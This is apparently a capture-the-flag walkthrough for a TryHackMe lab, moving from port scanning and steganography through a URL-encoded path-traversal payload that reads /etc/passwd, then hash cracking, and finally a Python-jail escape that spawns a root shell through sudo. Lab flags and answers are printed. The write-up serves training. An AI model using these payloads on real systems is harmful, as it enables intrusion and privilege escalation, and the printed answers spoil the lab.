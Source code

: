 # Tokyo Ghoul
https://tryhackme.com/room/tokyoghoul666

## Where am I?
###  Use nmap to scan all ports
_No answer required_

`nmap -sC -sV -p- -vv $ip`

Open Port: 22
Open Port: 21
Open Port: 80

###  How many ports are open?
**Answer: 3**

### What is the OS used?
`nmap -A -vv $ip`
Port 22: 22/tcp SSH OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)

**Answer: Ubuntu**

## Planning to escape
### Did you find the note that the others ghouls gave you? where did you find it?
On the index page there is a link that leads to /jasonroom.html where there is a HTML comment containing the following text

```look don't tell jason but we will help you escape , here is some clothes to look like us and a mask to look anonymous and go to the ftp room right there you will find a freind who will help you```

**Answer: jasonroom.html**

### What is the key for Rize executable?
Our service scan earlier & the note are suggesting that we use anonymous ftp on the server therefore I login using `ftp $ip` with the username **anonymous** and see a directory called need_Help?

This directory contains a .txt file and another dir containing a .jpg and unknown file called "need_to_talk"

I used `binwalk found/need_to_talk` to find that it's an ELF file, therefore I made it executable and ran it and provided an empty password to which the executable prints out "Take a look inside of me."

It was requesting a password that I didn't know, so I exited out of it and ran strings on the executable `strings found/need_to_talk` and found some recognizable text **kamishiro**.

I re-ran the executable and provided this as the password. This gave me the flag **You_found_1t**

**Answer: kamishiro**

###  Use a tool to get the other note from Rize.
I checked the .jpg file using `steghide extract -sf found/rize_and_kaneki.jpg` and provided the password "You_found_1t".

## What is Rize trying to say?
###  What the message mean did you understand it ? what it says? 

This exported a file called "yougotme.txt" which contained the following information:

```
haha you are so smart kaneki but can you talk my code 

..... .-
....- ....-
....- -....
--... ----.
....- -..
...-- ..---
....- -..
...-- ...--
....- -..
....- ---..
....- .-
...-- .....
..... ---..
...-- ..---
....- .
-.... -.-.
-.... ..---
-.... .
..... ..---
-.... -.-.
-.... ...--
-.... --...
...-- -..
...-- -..


if you can talk it allright you got my secret directory 
```

I threw this into CyberChef and it follows the encoding:
MorseCodeEncoded(HexEncoded(Base64Encoded(Plaintext)))

**Answer: d1r3c70ry_center**

### Can you see the weakness in the dark ? no ? just search  
The /d1r3c70ry_center directory is asking to be "scanned" therefore I am assuming this is for a directory bruteforce.

`gobuster dir -u http://$ip/d1r3c70ry_center/ -w /usr/share/wordlists/dirb/common.txt -t 64`

I found a directory under /claim which gives the user a yes or no option which appends the following to the URL **?view=flower.gif**

This is a potential for LFI so I attempt to find the /etc/passwd file however the website doesn't allow us to just pass a normal directory so I try to URL encode the path.

Since ../../ gets me to the root of the website I made the assumption that since the webserver is running Apache httpd (as per our service scan) that we are currently in the default directory for it. Which is /var/www/html

Therefore I append ../../../ to my current directory and assume that I am in / on the server.

../../../../../

from here I want to access /etc/passwd therefore I have the following output: ../../../../../etc/passwd which when URL encoded becomes
`%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd`

URL: http://<ip>/d1r3c70ry_center/claim/index.php?view=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd

### What did you find something? Crack it
The /etc/passwd contained the hash for the kamishiro user on the server:

`kamishiro:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:1001:1001:,,,:/home/kamishiro:/bin/bash`

I then used JohnTheRipper to crack this hash
`john found/hash.txt --wordlist=/usr/share/wordlists/rockyou_utf8.txt`

kamishiro:password123

### What is Rize username?
**Answer: kamishiro**

### What is Rize password?
**Answer: password123**

## Fight Jason
`ssh kamishiro@$ip` using password123 as password

### user.txt
**Answer: e6215e25c0783eb4279693d9f073594a**

### root.txt
`sudo -l`

Allows us (ALL) /usr/bin/python3 /home/kamishiro/jail.py which we don't have write access to however reading this it runs exec(user_input) which allows us to execute commands, however there is a blacklist of keywords that stop us from running certain commands.

Stuck I googled "Python Jail" and found the following blog post: https://anee.me/escaping-python-jails-849c65cf306e which has a similar context to the current challenge.

The aim is to use Python built-ins to break out of this python jail which runs as root due to sudo to retain root privileges.

Python allows us to use built in objects using the `__builtins__` module [docs](https://docs.python.org/3/library/builtins.html).

Google Search: "Bypass Python sandboxes"
Result: https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes

Since I want to spawn a bash shell I think of using the pty module to do something like this: `pty.spawn("/bin/bash")`

Which using Python builtins would look like this: `__builtins__.__import__("pty").spawn("/bin/bash")` however this is still detected by the blacklist in the code.

However I can also represent this as
`__builtins__.__dict__['__IMPORT__'.lower()]("pty").spawn("/bin/bash")`

This works because you can pass the Python builtins as a dictionary which takes a string value, and as the blacklist is matching exactly to the lowercase version of "import" I can pass the string in uppercase and use the python function .lower() to convert the string to lowercase during interpretation.

Once passing this into the Python Jail we gain access to a stable root shell using bash.

cat /root/root.txt

**Answer: 9d790bb87898ca66f724ab05a9e6000b**